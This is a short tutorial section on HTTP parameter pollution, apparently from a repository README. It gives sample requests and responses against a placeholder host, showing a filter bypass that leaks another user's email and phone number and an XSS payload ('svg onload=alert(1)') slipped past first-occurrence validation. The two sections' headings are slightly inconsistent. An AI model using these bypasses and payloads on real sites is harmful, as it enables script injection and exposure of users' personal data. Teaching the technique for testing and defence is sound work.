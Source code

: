 ## 1 - All occurrences of specific parameter :
  This means that if we parse the same name parameters like q=hello&q=”><svg/onload=alert(1)> the check will be performed on both the parameters because they have the same name. In All occurrences, the barrier is if the back-end logic is configured to allow a specific parameter only 1 time then appending another parameter (q=hello&q=”><svg/onload=alert(1)>) of same name will give you an error.

<br></br>
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
Response :
```
HTTP/1.1 403
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100,101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

“email”:”yourmail@gmail.com”,“phoneNumber”:+91-9999999999,”email”:”victim@gmail.com”,”phoneNumber”:+91-8888888888

}
```

## 1 - All occurrences of specific parameter :
  First occurrence means a web application performs input validation on the first parameter which makes it vulnerable to second parameter which should be of same name.

Request :
```
GET /search?q=”><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q=Hello&q=”><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the first occurrence (q=Hello) is checked and the last occurrence (q=”><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.


